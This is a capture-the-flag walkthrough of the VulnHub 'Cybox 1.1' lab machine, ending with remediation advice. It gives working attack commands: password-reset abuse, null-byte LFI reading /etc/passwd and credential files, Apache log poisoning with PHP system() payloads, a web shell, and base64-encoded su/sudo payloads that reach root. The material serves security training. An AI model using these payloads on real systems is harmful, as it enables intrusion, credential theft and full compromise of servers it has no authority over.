

# Cybox 1.1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Cybox: 1.1](https://www.vulnhub.com/entry/cybox-11,607/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*ill you be able to compromise the internal server of the CYBOX company?. Difficulty: Medium. Objective: Get user.txt and root.txt. This works better with VirtualBox rather than VMware.*


## Summary

Cybox: 1.1 starts with a domain name `cybox.company` and an admin email found with `whatweb`, after a dictionary attack with `ffuf` I identify 5 virtual hosts, a custom monitor track in `monitor`,  a directory listing in `dev`, a `net2ftp` service in `ftp`, a custom register service in `register`, and mail service with `SquirrelMail` in  `webmail`. I can get an email account `@cybox.company` thanks to the `register` vhosts, and the `monitor` is vulnerable to user enumeration by the response error, and it has a `/reset.php` option that sends a custom endpoint to my email that I could check in the `net2ftp` or with `webmail`, and that link allows me to restore the password of any user `GET` requests to `/updatePasswordRequest.php?email=`,  and I restore the admin password `admin@cybox.company`, and get access to the `/admin` endpoint where there is a link tag to  `styles.php?style=general` and I discover that it is vulnerable to a path traversal of any `.css` file, but it also uses `PHP 5.2.15` which is vulnerable to `null byte injection` allow me to convert the path traversal to a Local File Inclusion LFI. After reading the `phpinfo` file found in the vhots `dev` directory listing, I could figure out that the `http.conf` is located at  `/opt/bitnami/apache2/conf/httpd.conf`. After reading it with the LFI I could notice all the `Include` lines, and I identify the  `httpd-vhosts.conf`, Where I could see the configuration of all virtual hosts, there I discover that the `ftp` vhost has a `CustomLog` file at `/opt/bitnami/apache2/logs/access_log` and I am able to read it with the `LFI`, and knowing that PHP will run every code it finds, I could perform a `server log poison attack` when I send PHP payloads in the `user-agent` header to the `ftp` vhosts. With that, I was able to perform `RCE` and create a [web shell](./static/webshell.py) as the `daemon` user, and get the user flag. The server contains the `/opt/registerlauncher` binary with `setuid` permissions that runs the `/opt/register` bash script as the root user, and the script creates a Linux user with the name we give as input argument, but it does not sanitize the system `group` names, so I can create the user `sudo` and it will belong to the `sudo` group, allowing to run commands as root.

1. CWE-204: Observable Response Discrepancy
2. CWE-620: Unverified Password Change
3. CWE-98: Improper Control of Filename for Include/Require
4. CWE-158: Improper Neutralization of Null Byte or NUL Character
5. CWE-284: Improper Access Control
6. CWE-94: Improper Control of Generation of Code ('Code Injection')
7. CWE-732: Incorrect Permission Assignment for Critical Resource

#VirtualBox #Nmap #CyberChef #HashCat #Ghidra #Python #Feroxbuster #Ffuf #vhosts #setuid #FTP #Net2ftp #WebDAV #gtfobins #Postfix #POP #IMAP #LFI #SquirrelMail #PathTraversal #NullByteAttack #LogPoisoning #UnixGroups #WebShell

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration
And I find out that the IP is `192.168.2.7`


And I start scanning the target with Nmap:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.7
# Nmap 7.92 scan initiated Sat Jan 21 16:44:49 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.2.7
Nmap scan report for cybox.comp (192.168.2.7)
Host is up (0.0019s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
25/tcp  open  smtp       Postfix smtpd
80/tcp  open  http       Apache httpd 2.2.17 ((Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2 PHP/5.2.15)
110/tcp open  pop3       Courier pop3d
143/tcp open  imap       Courier Imapd (released 2011)
443/tcp open  ssl/https?
Service Info: Host:  cybox.Home; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 21 17:01:28 2023 -- 1 IP address (1 host up) scanned in 998.91 seconds
```
And I identify 6 open ports, the `vsftpd 3.0.3` service runs on `21` TCP, and the `Postfix smtpd` service runs on `25` TCP, and the `Apache httpd 2.2.17` service runs on `80` TCP, and the `Courier pop3d` service runs on `110` TCP, and the `Courier Imapd` service runs on `143` TCP, and the `ssl/https` service runs on `443` TCP, and it runs on UNIX.

When I use the `curl` command with the `OPTIONS` method:
```shell
$ curl -X OPTIONS 192.168.2.7 -v
...SNIPPED...
< Allow: GET,HEAD,POST,OPTIONS,TRACE
...SNIPPED...
```
Then I can identify that the `TRACE` method is available. When I use the `whatweb` command:
```shell
$ whatweb 192.168.2.7
http://192.168.2.7 [200 OK] Apache[2.2.17][mod_ssl/2.2.17], Bootstrap,
Country[RESERVED][ZZ], Email[admin@cybox.comp,admin@cybox.company], HTML5,
HTTPServer[Unix][Apache/2.2.17 (Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2
PHP/5.2.15], IP[192.168.2.7], JQuery, OpenSSL[0.9.8o], PHP[5.2.15],
Script, Title[CYBOX], WebDAV[2], X-UA-Compatible[IE=edge]
```
Then I can see two emails, one with the domain `cybox.comp`, and the other with the domain `cybox.company`, and I add them to my `/etc/hosts` file:
```shell
$ echo "192.168.2.7 cybox.comp cybox.company" | sudo tee -a /etc/hosts
```
And also, the parameter `WebDAV` catches my attention, then I searched for it and found that it is a way to edit, and manage files on remote web servers: [WebDAV](http://www.webdav.org).

## Normal use case

Company website with the services it offers.

Given I access `http://cybox.comp/`, then I can see:



But the page does not contain any hyperlinks or interesting information, and the `http://cybox.company/` shows me the same view.

## Dynamic detection

Bad reset password architecture and LFI with admin credentials.

Given I can access `http://cybox.comp/`, then I can use the `feroxbuster` command with a list of Seclists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> http://cybox.comp -x php,html

...SNIPPED...
403  GET  1l  14w  92c http://cybox.comp/phpmyadmin
...SNIPPED...
```
When I try to make an `OPTIONS` request to `/phpmyadmin`:
```shell
$ curl -X OPTIONS cybox.comp/phpmyadmin -v
For security reasons, this URL is only accessible using localhost
(127.0.0.1) as the hostname
```
And thinking that I can not get anything useful from that domain, then I decided to enumerate virtual hosts.

When I use the `ffuf` command with a list of Seclists:
```shell
$ ffuf -H "Host: FUZZ.cybox.company" -c -w \
> subdomains-top1million-20000.txt:FUZZ -u http://192.168.2.7 -fs 8514

...SNIPPED...
webmail                 [Status: 302, Size: 0, Words: 1, Lines: 1]
monitor                 [Status: 302, Size: 0, Words: 1, Lines: 1]
register                [Status: 200, Size: 1252, Words: 217, Lines: 74]
ftp                     [Status: 200, Size: 5295, Words: 645, Lines: 68]
dev                     [Status: 200, Size: 209, Words: 18, Lines: 11]
...SNIPPED...
```
Then I can identify 5 virtual hosts, and I add them all to my `/etc/hosts` file, and I also try to run the `fuff` command with the domain `cybox.comp`, but I do not get any virtual host, then I start to enumerate each virtual host found.

Given I can access `dev.cybox.company`, then I can see that it is a directory listing :


And I can access `phpinfo.php`, and that file gives me all the currently used PHP configuration, but I will leave it here to use later and I keep checking the other virtual hosts

Given I can access `ftp.cybox.company`, then the first thing I see is a cookie agreement, and after that I can see a `net2ftp` web based `FTP` client:


But I do not have any credentials, then I check the next virtual host.

Given I can access `register.cybox.company`, then I can see a user creation form. When I type `testing` and click create, then I can see a reply with an email, and the credentials of that new user:


And with those credentials, I go back to the `ftp` vhost, when I use `testing:testing` credentials, and the email `testing@cybox.company` in the `net2ftp` client, then I can successfully access:


And I see the following directory structure:
```
maildir/
├── cur
├── new
└── tmp
```
But all the directories are empty, then I decided to go to the next virtual host.

Given I can access `monitor.cybox.company`, then I can see a login form, and I identify that I can enumerate accounts
When I use my `testing@cybox.company`, then I see the message `No account found with that email`, but if I use email found with the `whatweb` command, then I see `The password you entered was not valid`


When I explore the `monitor` website, then I identify the endpoint `/register.php`, and I register with the email `testing@cybox.company`, and after login, I can see the welcome page. When I explore it, then I see that it is to track working time:


And by the footer message `Monitor from Cybox`, then I can guess it is a custom website, and I decided to brute-force the endpoints. When I use the `feroxbuster` command with a list of Seclists:
```shell
$ feroxbuster -w directory-list-2.3-small.txt -u \
http://monitor.cybox.company -x php,html

...SNIPPED...
200  GET  33l   99w   1491c http://monitor.cybox.company/login.php
200  GET  39l  116w   1772c http://monitor.cybox.company/register.php
301  GET   7l   20w    243c http://monitor.cybox.company/admin
200  GET   0l    0w      0c http://monitor.cybox.company/config.php
302  GET   0l    0w      0c http://monitor.cybox.company/admin/index.php
302  GET   0l    0w      0c http://monitor.cybox.company/admin/styles.php
200  GET  28l   82w   1193c http://monitor.cybox.company/reset.php
403  GET   1l   14w     92c http://monitor.cybox.company/phpmyadmin
...SNIPPED...
```
And the one that caught my attention was the endpoint `/reset.php`, and after that, I noticed that the `Forgot password` has the same endpoint, tut I forgot to check it, but fortunately, with `feroxbuster`, I was able to notice it. When I access the `/reset.php` endpoint, then I can see a form to reset the password with the email, and to test it, I try to reset my `testing` account. When I type `testing@cybox.company` in the `/reset.php` form, then I get the output:
```html
Thank you. Check the email for a link to change the password.
```
And the word `email` reminds me of the directory in the `net2ftp` client. When I check my account on the `ftp` vhost, then I can see a new file in the `/Maildir/new` directory:


And I download it. When I read the file:
```shell
$ cat 1672720115.Vfc00I284b5M882984.cybox
...SNIPPED...
Message-Id: <20230103042835.C81D2284B6@cybox.Home>
Date: Tue,  3 Jan 2023 05:28:35 +0100 (CET)
From: daemon@cybox (daemon)

Hello user, here is the link to update your password in Cybox Monitor:
http://monitor.cybox.company/updatePasswordRequest.php?
email=testing@cybox.company
```
Then I can see a `URL` to reset the password in `/updatePasswordRequest.php`, and the only parameter is the email then maybe if I change the email I could change any user's password, when I make the `GET` requests to `/updatePasswordRequest.php`, and I use the `email` parameter with `admin@cybox.company`, then I can see a form to type the new password:


When I type `123456` as the password, and I try to access it with `admin@cybox.company:123456`, then it works, I can access the admin account. When I go to the `/admin` endpoint found earlier with `feroxbuster`, then I can see an `under construction` message:


When I check the `/admin/styles` found above with `feroxbuster`:
```shell
$ curl http://monitor.cybox.company/admin/styles/

<h1>Index of /admin/styles</h1>
<ul><li><a href="/admin/"> Parent Directory</a></li>
<li><a href="general.css"> general.css</a></li>
```
Then I can see that it is a directory listing, and it only has the `general.css` file. When I examine the source endpoint `/admin/index.php`, and I read line 5:
```html
5 <link href="styles.php?style=general" type="text/css" rel="stylesheet">
```
Then I can see that with `/styles.php`, And with the `style` parameter, the site includes the `general.css` file, and I can guess that the PHP code uses the include function, and concatenate the `.css` to the URL `style` parameter, then I start playing with it, and to bypass the extension concatenation, I could use null byte injection. When I check that null byte injection is for versions below `5.5`, and I compare it with the current version of `PHP 5.2.15`, then I can conclude that I can exploit that vulnerability, and I perform a local file inclusion `LFI`. When I test it by adding the `.css` with the null URL encoding byte `%00`, then I can see the `general.css` file again:


And I can conclude that there is a poor procedure for resetting passwords, and with the old PHP version, and the inclusion of the `/admin/styles.php` file, then I can perform a local file inclusion attack.


## Exploitation

Server log poison attack, web shell, and creation of unsafe server users.

Given I can access `monitor.cybox.company`, and I can create an account, and I can reset the password, and I can read the mail sent to my account with the `ftp` vhost, and the password reset method allows me to reset anyone's password,.and knowing that the admin account is `admin@cybox.company`, and identifying that `/admin/styles.php` uses an include function, and I can control the inclusion with the `style` URL parameter, and `PHP version 5.2.15` is vulnerable to `null byte injection`
Then I can perform a local file inclusion attack.

When I use the `fuff` command to identify how many `/..` I need, and I use the `LFI-Jhaddix.txt` list of Seclist
And I add it the `PHPSESSID` cookie because I must be `admin` :
```shell
$ ffuf -w LFI-Jhaddix.txt:FUZZ -u \
> "http://monitor.cybox.company/admin/styles.php?style=FUZZ%00" -b \
> "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" -fs 0

...SNIPPED...
../../../../../../etc/passwd
[Status: 200, Size: 1776, Words: 14, Lines: 36]
...SNIPPED...
```
When I see the `/etc/passwd`:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?
> style=../../../../../../etc/passwd%00" -b
> "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

$ admin:x:1002:1002::/home/admin:/bin/bash
$ testing:x:1003:1003::/home/testing:/bin/bash
```
Then I can see the user `testing`, and that is the user that I create with the `register` vhost, and that means that it also creates a user on the server, but I want to explore the files that I can get from the LFI.
When I check the `/phpinfo.php` on `dev` vhost, then I see the path `/opt/bitnami/apache2`:


When I use the LFI to get the `httpd.conf`, and knowing that the `Apache2` directory is in `/opt/bitnami/apache2`, and use the `curl` command:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/conf/httpd.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

...SNIPPED...
AddType application/x-httpd-php .php .phtml
Include "/opt/bitnami/apache2/conf/ssi.conf"
AddType application/x-httpd-php .php
PHPIniDir "/opt/bitnami/php/etc"
Include "/opt/bitnami/apache2/conf/fastcgi.conf"
Include "/opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf"
...SNIPPED...
```
Then the `phpmyadmin.conf` catches my attention. When I get the `phpmyadmin.conf` file:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

Alias /phpmyadmin "/opt/bitnami/apps/phpmyadmin/htdocs"

<Directory "/opt/bitnami/apps/phpmyadmin/htdocs">
AuthType Basic
AuthName phpMyAdmin
AuthUserFile "/opt/bitnami/apache2/users"
Require valid-user
Order allow,deny
Allow from 127.0.0.1
Satisfy all
ErrorDocument 403 "For security reasons, this URL is only accessible using
localhost (127.0.0.1) as the hostname"
</Directory>
```
Then I see that the basic auth credentials are in the `AuthUserFile` variable. When I get the file `/opt/bitnami/apache2/users`:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/users%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

administrator:PGwstF2Sa2yAw
```
Then I tried to crack it with `Hashcat` and Rockyou list, but it fails.
When I check multiple default files with the LFI, but I can not find anything useful, then I remember that I have a vhost that I have not seen.

Given I can access `webmail.cybox.company`, then I can see `SquirrelMail v1.4.22` app:


And I can log in with my `testing:testing` credentials, and I also see the password reset email. when I google `SquirrelMail version 1.4.22 exploit`, then I find [SquirrelMail < 1.4.22 - Remote Code Execution - Exploit-DB](https://www.exploit-db.com/exploits/41910), and it requires an account and that SquirrelMail uses the Sendmail method as email delivery transport. When I search for `SquirrelMail default path` to identify `config` files, and I find the [official SquirrelMail documentation](https://squirrelmail.org/docs/admin/admin-2.html):
```shell
# cd /path/to/squirrelmail
# cd config
# ./conf.pl
```
And with the LFI I know how to get to the `webmail` webroot:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../htdocs/webmail/config/conf.pl%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" > config.pl
```
And I use the `grep` command:
```shell
$ grep -i "usesendmail" conf.pl
$useSendmail = "false"    if ( lc($useSendmail) ne "true" );
  if ( lc($useSendmail) eq "true" ) {
    if ( lc($useSendmail) eq "true" ) {
...SNIPPED...
```
Then I can verify that SquirrelMail does not use the `Sendmail` method, then the exploit does not apply, and I got stuck again and I decide to return to the LFI, and I check again the files I already have. When I check the `httpd.conf` file that I stored with the same name, but filtering better using the `grep` command, and removing the noisy comments:
```shell
$ grep -i "include" http.conf | egrep -v '^#'
...SNIPPED...
Include conf/extra/httpd-vhosts.conf
Include conf/extra/httpd-ssl.conf
Include "/opt/bitnami/apache2/conf/ssi.conf"
Include "/opt/bitnami/apache2/conf/fastcgi.conf"
Include "/opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf"
```
Then so far I was ignoring the included file `httpd-vhosts.conf`. when I get that file with the `curl` command:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/conf/extra/httpd-vhosts.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" > httpd-vhosts.conf
```
And I read it:
```shell
$ less httpd-vhosts.conf
```
Then I get the config of all the virtual hosts, and I start getting some files with the paths I found in that file, and after reading it several times, then I notice that the `ftp` vhost has a `CustomLog` file:


And I verify with the LFI that I can read the `access_log` file, Then I could perform a `server log poison attack`. When I send a payload to verify the vulnerability, and I modify the `user-agent` header with the `-A` switch of the `curl` command:
```shell
$ curl -s "http://ftp.cybox.company" -A '<?php system("id"); ?>' \
> &>/dev/null
```
And I get the `access_log` file:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/logs/access_log%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"
```
But the file does not return, and that means I broke it because the PHP code can not run correctly, and at this point, I have to reboot the machine. When I analyze the behavior of the `access_log` file. then **I can understand that the double quotes were the problem**, and it is because **the user agent is enclosed with double quotes**. and with the double quotes of my payload, the user agent value is closed, and PHP ends up trying to run the command halfway. When I change the payload with single quotes:
```shell
$ curl -s "http://ftp.cybox.company" -A "<?php system('id'); ?>" \
> &>/dev/null
```
And I run the `curl` command again to get the `access_log` file, then I get the output.
```shell
192.168.56.101 - - [03/Jan/2023:21:02:28 +0100] "GET /index.php HTTP/1.1"
 200 19783 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101
 Firefox/78.0"
192.168.56.101 - - [03/Jan/2023:21:02:38 +0100] "POST /index.php HTTP/1.1"
 200 23084 "http://ftp.cybox.company/index.php"
 "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.56.101 - - [03/Jan/2023:21:07:43 +0100] "GET / HTTP/1.1" 200 5295
"-" "uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
And I can see the output of the `id` command, the `RCE` works. but after noticing how delicate the file is and I could easily break it, then I try to run a reverse shell, but for a reason, all my attempts fail, then I decide to use a web shell instead, and I write a python script [webshell.py](./static/webshell.py), and I use the `cmd` module to build a `line-oriented` shell.

When I run the script:
```shell
$ python3 web_shell.py
```
Then a shell is opened to run commands as the 'daemon' user:
```shell
daemon$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
And I know it is the `daemon` user because of the files I read with LFI, and I want to know why the reverse shell fails. When I open a listener on my local machine with the `nc` command:
```shell
$ nc -lnvp 1234
```
And with the web shell, I use the `curl` command, and I redirect the `STDERR` to the `STDOUT`:
```shell
$ daemon$ curl http://192.168.56.101:1234 2>&1
curl: (7) couldn't connect to host
```
Then it seems that the network config prevents me from reaching my IP. when I start to explore the server with the web shell, and I found the user flag on the `cybox` home:


## Privilege escalation

When I continue exploring the server:
```shell
$ daemon$ ls -la /opt
total 24
drwxr-xr-x  3 root root 4096 Dec  6  2020 .
drwxr-xr-x 22 root root 4096 Nov 11  2020 ..
drwxr-xr-x 10 root root 4096 Nov 11  2020 bitnami
-rwxr-xr-x  1 root root  968 Dec  6  2020 register
-rwsr-sr-x  1 root root 7400 Nov 14  2020 registerlauncher
```
Then the `registerlauncher` binary catches my eye, and it is because it has `setuid` permissions. When I first analyze it with the `file` command:
```shell
$ daemon$ file /opt/registerlauncher
/opt/registerlauncher: setuid, setgid ELF 32-bit LSB executable,
Intel 80386, version 1 (SYSV), dynamically linked, interpreter
/lib/ld-linux.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=00640b37a564f4c8ee3118f654762075d7cdab79, not stripped
```
Then I can see that it is a UNIX binary. When I use the `base64` command to encode it:
```shell
$ daemon$ cat /opt/registerlauncher | base64
```
And I copy and paste it into CyberChef, and I decode the base64 and download it :


And I decompile it with `Ghidra`, then I can see that it runs the `execlp` function:


And it does it with root privileges, and the script that is executed is the bash script `/opt/register`. When I read the `register` script:
```shell
$ daemon$ cat register
...SNIPPED...
USERNAME=$1
...SNIPPED...
if [[ "$USERNAME" =~ [^a-z] ]]; then
  /bin/echo -e "Think twice before putting something :)"
  exit 0
fi
...SNIPPED...
```
Then I can see that the input argument can only be lowercase letters, and the rest of the code is to create a new user on the server, and that means the `register` vhost use that binary, and from the echo message, I can confirm that this is the way to escalate, and I try to inject bash commands. but all my attempts fail, and I was stuck for almost 3 weeks. and I decided to find an article and just read the first paragraph, and I found:


When I read `and priv esc to root by creating the sudo user`, then with that, I could understand everything, and I was stuck because I was ignoring the main function of the register, and I mean, I searched every line just in case I could exploit it, but I was always thinking of a way to inject code, and instead of using the original function of the script in my favor. When after trying a few inputs, then I figured out how the user groups work, and it is only created if that group does not currently exist then I saw that I can create a user with the name of a group, When I google `exploiting user group`, then I find that [I can use the following groups to escalate privileges](https://steflan-security.com/linux-privilege-escalation-exploiting-user-groups/):
```
sudo, admin, wheel, video, disk, shadow, adm, docker or LXC/LXD
```


And if I use the username `sudo`, it will be in the `sudo` group, and that way I could run commands with root privileges.
When I create the `sudo` user:
```shell
$ daemon$ /opt/registerlauncher sudo
sudo@cybox.company has been created successfully. The credentials are
sudo:sudo. You should change your default password for security.
```
When I try to run a command like `sudo` user:
```shell
$ daemon$ echo sudo | su sudo -c id 2>&1
su: must be run from a terminal
```
When I google `run su command from a web shell`, then I [found a post](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells):


And it says that I can use a shell terminal trick that relies on Python, and to turn the non-terminal web shell into a terminal shell, but I can not execute directly that command, and it is because my web shell is limited, and I can not use double quotes, or the `access_log` file will be broken, but I can send it `base64` encoded. When I encode the bash command with the `sudo:sudo` credentials:
```shell
$ echo "(sleep 1; echo sudo) | python -c \"import pty;
> pty.spawn(['/bin/su','sudo','-c','id']);\"" | base64 -w 0

KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk7IHB0eS5zcG
F3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdpZCddKTsiCg==
```
When I use that output in the web shell:
```shell
$ daemon$ echo KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCB
> wdHk7IHB0eS5zcGF3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdpZCddKTsiCg== | \
> base64 -d | bash

Password:
uid=1003(sudo) gid=27(sudo) groups=27(sudo)
```
Then now I modify the payload to run the `sudo` user with `sudo` privileges, and I use the `-S` switch to read the password from `STDIN`:
```shell
$ echo "(sleep 1; echo sudo) | python -c \"import pty;
> pty.spawn(['/bin/su','sudo','-c','echo sudo | sudo -S id']);\"" | \
> base64 -w 0

KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk7IHB0eS5zcGF3
bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdlY2hvIHN1ZG8gfCBzdWRvIC1TIGlkJ10pOyIK
```
When I use that output in the web shell:
```shell
$ daemon$ echo KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk
> 7IHB0eS5zcGF3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdlY2hvIHN1ZG8gfCBzdWRvIC
> 1TIGlkJ10pOyIK | base64 -d | bash

Password:
[sudo] password for sudo: uid=0(root) gid=0(root) groups=0(root)
```
Then I can get the root flag:


## Maintaining access
Given I can access `monitor.cybox.company`, and I can restore the password of the admin account, and with that, I can perform an LFI, and I can read the custom `access_log` used on the `ftp` vhost, and that allows me to perform a server log poison attack, and I can create a web shell with the user `daemon`, and on the server, I can run a binary to create server users, and I can create users with the system group names, and the created user will belong to that system group, and that allows me to be user `sudo` and belong to group `sudo`, and with that escalate privileges to the root user, but that connection is unstable because it depends on the `access_log` file, and on multiple occasions, I break that file, and if it does not break, after each command it will be slower, and that happens because `access_log` saves all previous commands, and at each run, it runs all over again, then I create a script shell [webshellroot](./static/webshellroot.py), and where I perform all the necessary processes to create the root shell, and I also clean the `acces_log` file after running a command, and to clean it up properly, I have to use a double backslash on line 61:
```python
61 cmd = f"su - -c \\'> {access_log}\\'"
```
When I run the [webshellroot.py](./static/webshellroot.py) script:
```shell
$ python3 webhellroot.py
```
Then it simulates an interpretation terminal, and run commands as the root user :


## Remediation

Given the unsafe reset password architecture, then they should handle it with a token,  and avoid that only with the email anyone can restore a password. When upgrading PHP from `5.2.15` to the latest version, then that prevents the injection of null bytes, and the LFI can not be performed, and without LFI there is no log poison attack. When they remove the permission to read the server logs, then I could not scale to an RCE. When users are created with a script, then use a blacklist with the names of the system groups, and the attacker could not create a `sudo` user, and it would not belong to any of the system groups, then with that, it may not be possible to get the root web shell.